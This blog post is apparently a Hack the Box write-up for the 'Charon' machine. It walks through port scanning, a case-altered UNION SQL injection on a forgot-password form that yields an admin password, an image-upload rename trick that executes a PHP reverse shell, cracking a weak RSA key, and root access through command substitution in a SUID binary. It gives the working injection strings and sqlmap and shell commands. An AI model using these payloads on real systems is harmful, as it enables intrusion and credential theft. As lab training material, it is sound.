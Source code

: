 ```yaml
---
layout: post
title:  "Hack the Box - Charon"
date:   2015-11-17 16:16:01 -0600
categories: hackthebox sqli html escape hacking writeup
---
```


<img class="header-img" src="{{ "img/charon/home.png" | relative_url }}" />

The first step, as (almost) always, is to enumerate any open ports on the machine.

{% highlight shell %}
~ » nmap 10.10.10.31 -sS -A
Nmap scan report for 10.10.10.31
Host is up (0.022s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; p
| ssh-hostkey: 
|   2048 09:c7:fb:a2:4b:53:1a:7a:f3:30:5e:b8:6e:ec:83:ee (RSA)
|   256 97:e0:ba:96:17:d4:a1:bb:32:24:f4:e5:15:b4:8a:ec (ECDSA)
|_  256 e8:9e:0b:1c:e7:2d:b6:c9:68:46:7c:b3:32:ea:e9:ef (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Frozen Yogurt Shop
Warning: OSScan results may be unreliable because we could not find a
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 3.2.0 (90%), Lin%), Linux 3.10 - 4.8 (85%), Linux 3.2 - 4.8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   22.54 ms 10.10.14.1
2   22.95 ms 10.10.10.31

OS and Service detection performed. Please report any incorrect resul
Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
{% endhighlight %}

Only 22 and 80 are open, so let's continue to enumerate and see what we can find on port 80. It appears to be a page for the "Freeeze" frozen yogurt shop. Everything is static except for the blog posts, which have URLs of the form: `http://charon.htb/singlepost.php?id=10`. Simple manual testing indicates that this is vulnerable -
{% highlight shell %}
http://charon.htb/singlepost.php?id=0%20union%20select%201,1,1,1,1
{% endhighlight %}
so let's put sqlmap on the case, and keep moving forward:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/singlepost.php?id=10" --level=5 --risk=3 --technique=U
{% endhighlight %}
(strangely sqlmap fails on this simple case...in any case, this database isn't useful to us)

Moving onwards, what should stick out to you is that the footer indicates this site is powered by "SuperCMS." That means we should definitely start looking for the login portal for "SuperCMS." This doesn't appear to be an actual CMS system, so we'll have to fall back to dirbuster to enumerate. I used the default wordlist `directory-list-2.3-medium.txt` which pretty quickly hits `/cmsdata/login.php`.

This leads us to a login page that appears not to be vulnerable to SQL injection, and a "Forgot Password" page that looks like it might be. The reasoning here is that the Login page returns the same error messages no matter what is passed, and has no decernable blind SQLi vulnerabilities. Meanwhile, the forgot password page gives at least 2 different types of errors:
```
' -> Incorrect format
x@x.c -> User not found with that email! 
``` 

A handy tricky for running / debugging sqlmap is to run it through Burpsuite:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/cmsdata/forgot.php" --data="email=x@x.c"  --level=5 --risk=3 --proxy=http://localhost:8080
{% endhighlight %}
sqlmap comes back with a potential blind SQLi vulnerability:
{% highlight shell %}
[...]
sqlmap identified the following injection point(s) with a total of 1122 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=x@x.c' RLIKE (SELECT (CASE WHEN (3782=3782) THEN 0x7840782e63 ELSE 0x28 END))-- DcMQ
---
[14:26:33] [INFO] the back-end DBMS is MySQL
[...]
{% endhighlight %}
but something that sticks out right away are the responses for UNION based injections:
<img src="{{ "img/charon/burp.png" | relative_url }}" />

Their response size and error message were drastically different than the rest, so let's take a closer look.

Working our way down the  <a href="https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF">WAF Bypassing Strings list</a>, we quickly find that changing the casing on `UNION` gets us past the error. Using the limitations that we know of (the queryset must return an email), and expanding the union count, we hit the jackpot on:
`' UnION SELECT 'x@x.c', 'x@x.c', 'x@x.c', 'x@x.c`
<img src="{{ "img/charon/bingo.png" | relative_url }}" />

The next step is to subsitute different values for `x@x.c` to see what gets echoed back to us and what has to be an email. After a short period, we quickly find this:
`' UnION SELECT '', (payload), '', 'x@x.c`.
From there we either manually query the database, or use our favorite tool, but we can quickly get the list of users and passwords (there are some other tricky aspects to this SQLi like dummy data, orderings, etc., but I'll leave that to the reader as an exercise):
`super_cms_adm / tamarro`

After logging in, there a few possible vulnerabilities: we can edit existing pages, create new pages, and upload images. Let's take a look at the image upload first. After doing a few probing tests, it's discovered that there is both client and server-side checks to make sure we're uploading an actual image, and that the extension is that of an image. Right when we're about to call this a dead end, we inspect the HTML source and see something funny:
{% highlight html %}
<form action="upload.php" method="POST" onsubmit="javascript:return ValidateImage(this);" name="frm" enctype="multipart/form-data">
<input type="file" name="image" />
<!-- <input type=hidden name="dGVzdGZpbGUx"> -->
<input type="submit"/>
</form>
{% endhighlight %}

`dGVzdGZpbGUx` looks a lot like base64, and when we decode it, we get `testfile1`, so clearly this is a tool for testing the upload. What happens when we decode it, give it a value, and try to upload something (I took a Blank.png file and inserted a reverse PHP shell into the middle of it to bypass the image restrictions):
<img src="{{ "img/charon/burp2.png" | relative_url }}" />

It renames the file for us! This lets us rename our "image" to a `.php` file and the web server will execute it as PHP and give us a reverse shell.

Once on the box, we quickly `cd` to `/home/decoder` and find a public key and encrypted password. 
{% highlight shell %}
$ cat decoder.pub
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
{% endhighlight %}

This is an extremely short key, and is trivially breakable (via something like <a href="https://github.com/Ganapati/RsaCtfTool">RsaCtfTool</a>). Once we break it and get the private key, we can decrypt `pass.crypt` which gives us the ssh password for decoder.

Now we can SSH in as decoder, `cat user.txt` and begin to think about priv esc. One of my first steps during priv esc is always `sudo -l` and to look for SUID/SGID binaries:
{% highlight shell %}
$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/supershell
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/newuidmap
/bin/ntfs-3g
/bin/ping6
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
{% endhighlight %}

`supershell` is obviously very suspect here, and is our most likely route to root. Let's try to figure out how this works:
{% highlight shell %}
$ supershell
Supershell (very beta)
usage: supershell <cmd>
$ supershell cat /root/root.txt
Supershell (very beta)
usage: supershell <cmd>
$ ltrace supershell
__libc_start_main(0x40082f, 1, 0x7fff323b28d8, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
puts("usage: supershell <cmd>"usage: supershell <cmd>
)                                    = 24
exit(1 <no return ...>
+++ exited (status 1) +++
$ ltrace supershell "ls ."
__libc_start_main(0x40082f, 2, 0x7ffc3bb1aa88, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
strncpy(0x7ffc3bb1a890, "ls ,", 255)                               = 0x7ffc3bb1a890
strcspn("ls ,", "|`&><'"\\[]{};#")                                 = 4
strlen("ls ,")                                                     = 4
strncmp("ls ,", "/bin/ls", 7)                                      = 61
+++ exited (status 0) +++
{% endhighlight %}

So, it's making sure we're _only_ running `/bin/ls` and that our input doesn't contain any of `` |&><'"\\[]{};#\` ``. To get around this requires a little bash knowledge, and a little creativity. First, it's pretty obviously missing a 3 big characters from it's blacklist: `$()`. This lets us execute a command _before_ `ls` runs. After doing a few local tests, it seems `ls` outputs the full file contents of a file if you try to list it:

{% highlight shell %}
~ » echo "givemeroot" > test_file
~ » ls "$(cat test_file)"
ls: cannot access 'givemeroot': No such file or directory
{% endhighlight %}

From there, it's simple:

{% highlight shell %}
$ supershell "/bin/ls \$(cat /root/root.txt)"
/bin/ls: cannot access 'REDACTED': No such file or directory
{% endhighlight %}